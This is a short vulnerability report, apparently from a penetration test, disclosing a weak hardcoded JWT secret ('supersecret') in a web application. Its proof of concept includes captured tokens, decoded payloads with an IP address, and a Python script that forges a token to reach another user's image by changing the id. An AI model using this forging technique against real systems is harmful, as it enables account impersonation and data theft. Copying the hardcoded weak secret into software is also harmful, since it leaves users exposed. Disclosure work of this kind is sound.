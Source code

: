 # Description


- **Type:** Broken Authentication / JWT Secret Disclosure  
- **Location:** All JWT-protected endpoints  
- **Severity:** 🔴 High  
- **Impact:** Token forgery, role escalation, account impersonation  

The application uses **JSON Web Tokens (JWT)** for authentication and authorization, signed with the `HS256` algorithm.  
During testing, it was discovered that the JWT secret is set to a **weak hardcoded value**: supersecret  

![jwt](../images/jwt.jpg)  

This secret is trivially guessable via brute-force or dictionary attacks using tools like `jwt-cracker`, `jwt_tool`, or `hashcat`.  

By signing arbitrary tokens with the known secret, it is possible to forge valid JWTs and escalate privileges  


## PoC 

For that PoC I created 2 different account with given JWTs:

> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MzQyLCJsb2dpbiI6Inlob3JtIiwibWFpbCI6IjEyM0AxMjMuY29tIiwicm9sZSI6InVzZXIiLCJpcCI6IjE0Ni4xNTguNjYuMjA5In0.  2W9Jjpmbh8XS8QmfJRJX5tAb_LoIiiWFRfkprJXj6W4

When decoded:

```
{
  "id": 342,
  "login": "yhorm",
  "mail": "123@123.com",
  "role": "user",
  "ip": "146.158.66.209"
}
```

And second 

> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MzYwLCJsb2dpbiI6IlBPT0MiLCJtYWlsIjoiMzFAMzIyLmNvbSIsInJvbGUiOiJ1c2VyIiwiaXAiOiIxNDYuMTU4LjY2LjIwOSJ9.v0FPpLfWFAqPO7iskaHPckFLmqubk3Gep00xx_C1L-0  

```json
{
  "id": 360,
  "login": "POOC",
  "mail": "31@322.com",
  "role": "user",
  "ip": "146.158.66.209"
}
```

With that tokens we will try to access /images.php?id=13921 (POOC user image) which is not accesible to 'yhorm' user.  
![jwt_poc](../images/jwt_poc.jpg)  

After testing it was clear that we can access others image only by changing **id** value.  
```python
import jwt

secret = "supersecret"

payload = {
    "id": 360, #id for POOC user
    "login": "yhorm",
    "role": "user",
    "mail": "123@123.com",
    "ip": "146.158.66.209"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```
New jwt token:  
> eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MzYwLCJsb2dpbiI6Inlob3JtIiwicm9sZSI6InVzZXIiLCJtYWlsIjoiMTIzQDEyMy5jb20iLCJpcCI6IjE0Ni4xNTguNjYuMjA5In0.0ej8hhRWs6vqNhRNQ4w-7G2xTSEqixOzFPauTyIxY6c

![jwttt](../images/jwt_final.jpg)

Successfully got access to other account image only by changing id value. 

